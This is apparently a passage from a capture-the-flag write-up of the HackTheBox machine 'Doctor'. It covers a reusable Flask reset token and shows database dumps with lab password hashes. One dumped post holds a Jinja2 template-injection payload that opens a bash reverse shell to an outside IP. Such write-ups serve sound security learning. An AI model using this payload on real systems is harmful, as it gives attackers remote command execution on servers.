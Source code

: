 
Looking at the source code, it seems that `user_id` is what is read out of
this cookie, and then used to fetch the user from the database:

    
    
        @staticmethod
        def verify_reset_token(token):
            s = Serializer(current_app.config['SECRET_KEY'])
            try:
                user_id = s.loads(token)['user_id']
            except:
                return None
            return User.query.get(user_id)    
    

So if I can keep a valid cookie across box resets (or database clears), I can
become another user. This seems unlikely to come up on a real world system,
but will come up all time time on CTFs like HTB.

#### Database Frozen State

I exfiled a copy of `site.db` from the working site directory just after a
reset. In this database, there are two users:

    
    
    root@kali# sqlite3 site.db 
    SQLite version 3.33.0 2020-08-14 13:23:32
    Enter ".help" for usage hints.
    sqlite> select * from user;
    1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
    2|shaun|s@s.com|default.gif|$2b$12$wW0SocwtbEImnxgWoHJPMOzbTKs1qYCeE5Q0KnBtCXqD7NzuDne4y
    

There’s also the exploit post associated with userid 2:

    
    
    sqlite> select * from post;
    1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
    2|{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").read()}}{%endif%}{%endfor%}|2020-09-28 13:01:21.252038|dsdsdsa|2
    

I grabbed a copy of the “clean” database from `/opt/clean`, and it only showed
one user:

    
    
    sqlite> select * from user;
    1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
    

And only one post:

    
    
    sqlite> select * from post;
    1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
    
